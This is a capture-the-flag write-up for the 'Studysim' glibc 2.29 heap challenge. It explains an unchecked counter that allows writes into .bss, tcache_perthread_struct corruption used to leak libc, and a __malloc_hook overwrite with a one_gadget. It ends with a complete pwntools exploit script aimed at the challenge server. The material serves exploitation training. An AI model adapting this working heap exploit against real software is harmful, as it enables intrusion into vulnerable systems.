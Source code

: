 # Studysim

This was a fun challenge on the vulnerable Tcache bins but different one compared to the simple FD overwrites one would expect. So let’s check it out!

Along, with the challenge binary we were provided with  Glibc 2.29 and loader for it. You can possibly use patchelf tool if your local environment is not of the one required for the challenge, so that your binary loads the Glibc 2.29 libc and the required loader for it.

Carrying out the initial checksec step, we get the following information on the mitigations:
```
Canary : Yes
NX : Yes
PIE : No
Fortify : No
RelRO : Full
```
So possibly some overwrite on any of the hooks? A possible FSOP? Let’s explore!

The menu function which we are presented with:
```
Welcome to study simulator!
Because who has free time when you must STUDY.
Commands:
add - Adds a worksheet onto your stack of worksheets
do - Complete the top worksheets
sleep - Give up and sleep
>
```

### Add

Let’s us create a new chunk of any size below 0x400 and then the allocated chunk’s address is then stored in an array called stack in .bss section. If the count of the chunks is already 7 then we cannot store anymore chunks but otherwise it simply increments the count variable.

stack[allocated_count ++] = address of the allocated chunk

After this we can give some content and it prints back the content which we have just added.

### Do

Here comes the vulnerable part. The function asks the user to input any number of integer and reduces the value of allocated_count by that much value without any checks on the input value. Which means using this we can store our return allocated address anywhere on the .bss. This is how the .bss section looks like:

```
0x404020 <stdout@@GLIBC_2.2.5>: 0x00007ffff7fc6760 0x0000000000000000
0x404030 <stdin@@GLIBC_2.2.5>: 0x00007ffff7fc5a00 0x0000000000000000
0x404040 <allocated_count>: 0x0000000000000000 0x0000000000000000
0x404050: 0x0000000000000000 0x0000000000000000
0x404060 <stack>: 0x0000000000000000 0x0000000000000000
0x404070 <stack+16>: 0x0000000000000000 0x0000000000000000
0x404080 <stack+32>: 0x0000000000000000 0x0000000000000000
0x404090 <stack+48>: 0x0000000000000000 0x0000000000000000
```

### Sleep

Well, it just sleeps and exits. Nothing interesting here.

## Getting the Leaks

To get the heap leaks, we can invoke the Do() functionality and then reduce the allocated_count to a negative value such that the address of the heap chunk returned by the malloc function is stored on the allocated_count .bss address. As the binary prints out the value of allocated_count here we get the heap leaks.
```
You throw the worksheet '0@@' on your stack of worksheets.
>
```

For the libc leaks, well it won’t be that easy as there’s a size check and also no free() to invoke anywhere anyhow. As the libc addresses are stored on the .bss section we need to somehow get an allocation there (as the binary prints the content of the chunk). So now how do we control this? Here, comes the Tcache structure.

I found this really good reference for understanding about how the Tcache keeps a track of the number of chunks in Tcache and their addresses. I won’t be explaining it in detail; you can check out the resource mentioned and try checking out the structure in GDB by allocating and freeing chunks in Tcache for any program which allows you to do it.

By calculating the right offset with the heap leaks and the known .bss address of the array stack one can get the allocation in the Tcache structure ( using the Do() functionality again ofc). First, we can overwrite the first 8 bytes of tcache_perthread_struct.count. And then similarly on the next allocation we can overwrite the first pointer stored in tcache_perthread_struct.entries (such that it acts as a freed chunk of size of 0x20 bytes). This pointer must have the .bss address of stdout_GLIBC stored as it’s forward pointer. So on the next call on malloc you can get an allocation there and cleverly leak out the libc address stored!

```
0x1553000: 0x0000000000000000 0x0000000000000251 <-- Tcache struct begins
0x1553010: 0x000000000155327f 0x0000000000000000 <-- First 8 bytes overwritten with count
0x1553020: 0x0000000000000000 0x0000000000000000
0x1553030: 0x0000000000000000 0x0000000000000000
0x1553040: 0x0000000000000000 0x0000000000000000
0x1553050: 0x0000000000404030 0x0000000000000000 <-- Next chunk in line for allocation
0x1553060: 0x0000000000000000 0x0000000000000000
```

## Final Exploit

By using the same trick as for the libc leaks, we can trigger the final exploit. Like last time by cleverly getting an allocation on Tcache (probably a chunk of another size, as it might give SIGSEV) of a chunk with FD pointer set to _malloc_hook_. On the next call to malloc() function we would get an allocation on _malloc_hook_ (exploiting the naive tcache). Now you can simply overwrite it with a one_gadget and on next malloc KABOOM!!!

```python
from pwn import *
 
bss_stack = 0x404060
 
#k = process("./studysim",env = {"LD_PRELOAD" : "./libc.so.6"})
k = remote('pwn.hsctf.com', 5007)
def add(size,content):
   k.sendlineafter("> ","add")
   k.sendlineafter("worksheet?\n",str(size))
   k.sendlineafter("worksheet?\n",content)
 
def do(count):
   k.sendlineafter("> ","do")
   k.sendlineafter("finish?\n",str(count))
 
def sleep():
   k.sendlineafter("> ","sleep")
stdout_bss = 0x0000000000404030
#heap leaks
do(4)
add(0x10,'a'*0x10)
do(0)
k.recvuntil("Only ")
heap_leak = int(k.recvline().strip().split(" ")[0],10)-1
print(hex(heap_leak))
do(heap_leak)
#get a count
chunk = heap_leak-0x250-0x8
diff = -bss_stack+chunk
do(-diff/8)
add(0x10,'c'*0x10)
do(diff/8+1)
#allocate a chunk at .bss addr of stdin
chunk = heap_leak-0x208-0x10
diff = -bss_stack+chunk
do(-diff/8)
add(0x10,p64(stdout_bss))
do(diff/8+1)
add(0x08,'')
 
k.sendlineafter("> ","add")
k.sendlineafter("worksheet?\n",str(0x8))
k.sendlineafter("worksheet?\n",'a')
 
k.recvuntil("worksheet ")
leak = k.recvline().strip().split(" ")[0].replace("'","")
leak = '\x00'+leak[1:]
leak = u64(leak.ljust(8,'\x00'))
libc_base = leak-0x1e4a00
print(hex(libc_base))
 
do(3)
 
#allocate chunk at __malloc_hook
malloc_hook = libc_base + 0x0000000001e4c30
system = libc_base + 0x0000000000052fd0
one_gadget = libc_base + 0xe2383
chunk = heap_leak-0x208-0x8
diff = -bss_stack+chunk
do(-diff/8)
add(0x20,p64(malloc_hook))
do(diff/8+1)
add(0x08,'')
 
k.sendlineafter("> ","add")
k.sendlineafter("worksheet?\n",str(0x8))
k.sendlineafter("worksheet?\n",p64(one_gadget))
do(2)
 
#call system
k.sendlineafter("> ","add")
k.sendlineafter("worksheet?\n",'0')
 
k.interactive()
```


